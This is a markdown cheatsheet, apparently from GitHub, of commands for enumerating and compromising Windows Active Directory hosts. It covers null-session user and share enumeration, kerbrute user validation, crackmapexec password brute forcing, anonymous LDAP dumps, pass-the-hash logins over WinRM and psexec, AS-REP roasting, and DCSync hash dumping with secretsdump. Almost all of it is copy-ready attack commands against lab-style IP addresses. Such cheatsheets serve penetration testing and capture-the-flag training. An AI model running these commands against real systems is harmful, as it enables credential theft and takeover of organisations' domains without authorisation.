 Windows Enum Cheatsheet
=======================
----------------------
(work in progress)

## Enum users
```
rpcclient -U '' 10.10.1.2
enumdomusers	# search for users
querydispinfo	# anything in description field
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.doe     Name: Adrian Doe   Desc: (null)
queryuser 0x464 # see more info
```
Get only usernames from enumdomusers:
```
cat file | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.txt
```

## Enum shares
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
crackmapexec smb 10.10.1.2 --shares
crackmapexec smb 10.10.1.2 -u '' -p '' --shares
crackmapexec smb 10.10.1.2 -u '' --shares

smbclient -L 10.10.1.2
smbclient -U '' -L 10.10.1.2

smbmap -H 10.10.1.2 -u '' -p ''
```

## Check valid users
https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc 10.10.1.2 --d domainname.local users.txt 
```

## Brute force
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
Get the password policy:
```
crackmapexec smb 10.10.1.2 --pass-pol
```
Check the accountlockout option before you start a brute force. Also you can check the min length etc.
```
crackmapexec smb 10.10.1.2 -u users.txt -p password.txt 
```
Make sure you update to the latest version if you want to use this:
```
cme smb 10.10.10.182 -u username -p password -M spider_plus
```
This crawls through every share we have access to and returns it in json.

## Mount
```
mkdir /mnt/data
mount -t cifs -o 'user=username,password=password' //10.10.1.2/sharename /mnt/sharename
```

## lDAP
```
ldapsearch -x -h 10.10.1.2 -s base namingcontexts
```

Query domain and dump ldap:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=example,DC=local' > ldapdump
```
Grab interesting unique things:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr
```
Get rid of base64:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr | grep : 
```
If you find anything interesting search for it in the dump

## Gaining access
Check
With the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
cme winrm 10.10.1.2 -u username -p password
cme winrm 10.10.1.2 -u username -H ntlmhash
```
Evil-winrm: (when it's not installed use this, otherwise it's just 'evil-winrm -i ... etc')
```
ruby evil-winrm.rb -i 10.10.1.2 -u username -p password
ruby evil-winrm.rb -i 10.10.1.2 -u username -H ntlmhash

```
## Impacket
### GetNPUsers.py
Queries target domain for users with 'Do not require Kerberos pre auth' set and export the TGTs for cracking
```
GetNPUsers.py domainname.local/ -usersfile users.txt -format john
```
### secretsdump.py
Let the domain think you are another DC. In order to sync I need all the password hashes. So with the right persmissions you'll get some hashes.
```
secretsdump.py domainname.local/username@10.10.2.1
```

### pcexec.py
Format for hash is LMHASH:NTHASH, but you can use the NTLM hash twice because windows doesn't really use LMHASH
```
psecex.py domainname.local/username@10.10.2.1 -hashes NTLM:NTLM



